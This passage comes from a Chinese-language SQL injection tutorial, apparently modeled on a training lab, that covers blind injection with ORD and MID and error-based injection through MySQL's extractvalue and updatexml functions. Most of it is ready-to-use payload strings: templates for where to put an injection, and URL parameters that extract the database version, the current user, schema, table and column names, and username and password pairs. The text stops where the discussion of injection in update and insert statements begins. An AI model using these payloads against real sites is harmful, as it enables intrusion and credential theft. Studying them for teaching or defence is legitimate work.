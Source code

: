 ```sql
Ord()函数同ascii()，将字符转为ascii值
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98
ord与mid函数同样可以结合在一起使用,与上面类似
```
以及他们的同义函数等，当然这里还可能会需要很多的转换，比如过滤了等于号可以通过正则或者 in 或者大于小于号等替换之类的，这部分内容我会放在别的文章梳理一下，这里就不赘述了。参见猜解表达式填充位置：
```sql
' or (payload) or ' 
' and (payload) and ' 
' or (payload) and ' 
' or (payload) and '=' 
'* (payload) *' 
' or (payload) and ' 
" – (payload) – "
" +(payload) + "
......
```
# **2 报错注入**
## **2.1 xpath解析错误型报错**
这里一般只用到了两个函数，extractvalue（）、updatexml（），关于两个函数的功能，有不清楚的可以自行查阅学习，这里不做过多介绍。报错原因很简单，updatexml第二个参数需要的是Xpath格式的字符串，如果我们输入的不符合，就会报错。报错回显内容的最大长度是32位的，所以有所局限。因此遇到一些比较长的字符需要主出时候，常常配合mid()、substr等函数执行多次查询，最后的结果由这些碎片字符进行拼接。

常见套路：
```sql
爆库
?id=1' and 1=extractvalue(1,concat(0x7e,(select database()),0x7e)) --+
或者
?id=1' and 1=(updatexml(1,concat(0x3a,(select database()),0x3a),1))%23
爆表
?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
爆字段
?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) --+
爆值
?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e))--+
```
或者使用updatexml函数：
```sql
爆数据库版本信息
?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)  
链接用户
?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)  
链接数据库
?id=1 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) 
爆库
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1),0x7e),1)  
爆表
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select table_name),0x7e) FROM information_schema.tables limit 0,1),0x7e),1)
爆字段
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select column_name),0x7e) FROM information_schema.columns limit 0,1),0x7e),1)  
爆字段内容
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM user limit 0,1),0x7e),1)  
```
以上说的基本都是查询的时候进行报错注入，有的时候报错注入存在与update、insert语句中
